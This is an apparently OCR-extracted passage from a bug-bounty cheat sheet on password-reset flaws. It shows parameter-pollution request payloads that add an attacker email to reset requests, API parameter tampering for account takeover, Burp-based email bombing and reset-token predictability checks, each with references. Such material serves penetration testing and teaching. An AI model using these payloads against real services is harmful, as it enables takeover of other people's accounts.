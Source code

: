POST /resetPassword
[...]
email="victim@mail.tld",email="attacker@mail.tld"

Add attacker email as second parameter in json array

    POST /resetPassword
    [...]
    {"email":["victim@mail.tld","atracker@mail.tld"]}

Reference

    https://medium.com/@0xankush/readme-com-account-takeover-bugbounty-fulldisclosure-a36ddbe915be
    https://ninadmathpati.com/2019/08/17/how-i-was-able-to-earn-1000-with-just-10-minutes-of-bug-bounty/
    https://twitter.com/HusseiN98D/status/1254888748216655872

[4] Full Account Takeover via Changing Email And Password of any User through API Parameters
Exploitation

    Attacker have to login with their account and Go to the Change password function
    Start the Burp Suite and Intercept the request
    After intercepting the request sent it to repeater and modify parameters Email and Password

    POST /api/changepass
    [...]
    ("form": {"email":"victim@email.tld","password":"12345678"})

Reference

    https://medium.com/@adeshkolte/full-account-takeover-changing-email-and-password-of-any-user-through-api-parameters-3d527ab27240

[5] No Rate Limiting: Email Bombing

Exploitation

    Start the Burp Suite and Intercept the password reset request
    Send to intruder
    Use null payload

Reference

    https://hackerone.com/reports/280534
    https://hackerone.com/reports/794395

[6] Findout How Password Reset Token is Genrated

Figure out the pattern of passoword reset token

If it

    Generated based Timestamp
    Generated based on the UserID
    Generated based on email of User
    Generated based on Firstname and Lastname
    Generated based on Date of Birth
    Generated based on Cryptography

Use Burp Sequencer to find the randomness or predictability of tokens.
[7] Response manipulation: Replace Bad Response With Good One
